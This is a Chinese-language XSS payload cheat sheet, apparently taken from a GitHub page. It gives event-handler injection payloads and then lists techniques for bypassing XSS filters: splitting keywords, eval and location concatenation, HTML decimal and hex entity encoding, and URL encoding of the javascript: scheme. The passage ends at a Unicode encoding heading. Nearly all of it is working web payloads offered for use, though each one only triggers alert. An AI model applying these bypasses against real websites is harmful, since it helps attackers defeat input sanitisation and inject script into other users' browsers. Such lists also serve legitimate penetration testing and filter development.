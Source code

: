 ```html
<textarea onfocus=alert("xss"); autofocus>
<select onfocus=alert(1)></select>
<details open ontoggle="alert('1');">
<w contenteditable id=x onfocus=alert()>
```

# 常见的绕过姿势

## Js函数关键字绕过

```
使用//来代替>，例如：<script>alert(1)</script//等价于<script>alert(1)</script>
使用alert`123`来代替alert(123)
使用prompt()和confirm()来代替alert()
使用alert(/xss/)来代替alert('xss')
使用alert%20(/xss/)、alert%0A(/xss/)、alert%0D(/xss/)、alert%09(/xss/)、alert/*abcd*/(/xss/)、alert//abcd%0A(/xss/)、alert//abcd%0D(/xss/)来代替alert(/xss/)
使用window['al'+'ert'](0)、window[`al`+`ert`](0)、top['al'+'ert'](0)、top[`al`+`ert`](0)来代替alert(0)
使用(alert)(/xss/)来代替alert(/xss/)
使用onfocus=_=alert,_(1)、onfocus=_=alert,xx=1,_(1)、onfocus=_=window['al'+'ert'],_(1)来代替onfocus=alert(1)
使用eval('ale'+'rt(1)')来代替alert(1)
使用onload=location='javas'+'cript:ale'+'rt(1)'、onload=window.location='javas'+'cript:ale'+'rt(1)'、onload=location.href='javas'+'cript:ale'+'rt(1)'、onload=window.open('javas'+'cript:ale'+'rt(1)')、onload=location='javas'.concat('cript:ale','rt(1)')来代替onload=alert(1)
```

## HTML编码绕过

```
十进制：使用&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;来代替javascript:alert(1)，其中分号可以不写。
十六进制：使用&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;来代替javascript:alert(1)，其中分号可以不写。
使用&#x0006A来代替&#x6A
使用javas&#x09;cript、javas&#x0A;cript、javas&#x0D;cript来代替javascript
使用&NewLine;来代替空格
使用&colon;来代替:
使用&lpar;&rpar;来代替()
```

## URL编码绕过

```
可以对src属性和href属性里面javascript:协议头后面的数据进行url编码或者url两次编码进行绕过，不可以对javascript:协议头进行url编码，否则浏览器会不识别后面的数据。
可以对onclick=等事件后面的数据进行url编码或者url两次编码进行绕过。
```

## Unicode编码绕过

